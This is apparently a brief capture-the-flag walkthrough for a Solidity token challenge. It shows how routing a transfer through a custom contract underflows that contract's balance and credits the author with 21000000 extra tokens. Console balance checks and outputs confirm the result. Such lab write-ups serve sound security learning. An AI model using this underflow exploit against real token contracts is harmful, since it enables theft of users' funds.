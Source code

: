 Idea is to create a custom contract and call Token.transfer() from that contract so that transfer amount is deducted off of msg.sender’s balance (i.e. custom contract’s balance) and deposited into my address.

To verify transfer of ETH:
-check balance of custom contract vs. my balance before transfer:
(await contract.totalSupply()).toString()
"21000000"

(await contract.balanceOf("0x6ba166580bd6989f2cad8b5245d269b845694baf")).toString() 
"20"

-execute TokenCaller.callTransfer(address_of_Token_contract, my_address, 21000000) from Remix which calls Token.transfer()

-check again:
(await contract.balanceOf("0xda6a32014c5cce5574b02020a33bbd3a7b3c1cd5")).toString() 
"0"

(await contract.balanceOf("0x6ba166580bd6989f2cad8b5245d269b845694baf")).toString() 
"21000020"

